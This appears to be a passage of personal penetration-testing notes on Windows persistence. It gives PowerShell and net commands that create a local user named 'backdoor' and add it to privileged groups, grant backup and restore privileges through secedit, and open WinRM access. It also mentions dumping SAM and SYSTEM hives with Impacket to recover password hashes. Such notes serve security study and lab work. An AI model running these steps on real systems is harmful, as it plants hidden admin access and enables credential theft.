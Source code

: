 ### Adding users to privileged groups
```powershell
# Creating user
net user backdoor /add

# Adding user to the administrators group
net localgroup "administrators" backdoor /add

# Adding user to "Backup Operators" group
net localgroup "Backup Operators" backdoor /add

# Adding user to "Remote Management Users" for RDP
net localroup "Remote Management users" backdoor /add
```

- By default, the UAC strips the remote user of it's administrative privs, this can be disabled. [[Policies#LocalAccountTokenFilterPolicy]]
- As a member of "Backup Operators", we can now save system and sam hives from the regsitery and use Impacket to get the system hash. [[Impacket#secretsdump.py]]

### Assigning privileges to users.
- By default, the 'backup Operators' have two privileges:
	- SeBackupPrivilege: User can read write any file in the system, ignoring any DACL in place
	- SeRestorePrivilege: User can read read any file in the system, ignoring any DACL in place
- A user can be assigned these privileges using `secedit` command.
```powershell
# Export current configuration
secedit /export /cfg config.inf

# Edit the config.inf to add the username in front of the privielge
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,backdoor

# convert the config.inf file to config.sdb
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cnf /config.inf
```

### Enable win-rm without adding user to "Remote Management Users"
- Add the user to the security descriptor of Win-RM.
```powershell
# this will launch the configuration windows for the Win-RM's security descriptor
Set-PSSessionconfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```
